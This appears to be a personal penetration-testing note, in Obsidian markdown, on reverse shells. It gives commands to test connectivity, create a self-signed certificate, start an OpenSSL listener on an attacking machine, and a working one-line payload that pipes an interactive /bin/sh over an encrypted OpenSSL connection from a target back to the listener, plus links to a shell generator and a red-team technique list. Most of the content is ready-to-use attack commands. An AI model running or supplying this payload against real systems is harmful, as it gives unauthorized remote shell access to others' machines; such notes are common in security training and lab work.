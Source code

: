 ```yaml
---
creation date: December 19th 2022
last modified date: December 19th 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[Reverse Shells]]  
___

## Description:  

[Reverse Shell Generator](https://www.revshells.com/)

Test for incoming pings

```
ping -c 3 192.168.49.85

sudo tcpdump -i any  ip proto icmp
```

### Encrypted Reverse Shells with OpenSSL

Generate SSL certificate:

```
openssl req -x509 -quiet -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
```

Start an SSL listener on your attacking machine using `openssl`:

```
openssl s_server -quiet -key key.pem -cert cert.pem -port 4444
```

Run the payload on target machine using `openssl`:

```
mkfifo /tmp/s;/bin/sh -i</tmp/s 2>&1|openssl s_client -quiet -connect 127.0.0.1:4444>/tmp/s 2>/dev/null;rm /tmp/s
```

Others: https://github.com/RoseSecurity/Red-Teaming-TTPs/blob/main/Linux.md

___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: December 19th 2022 (01:30 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
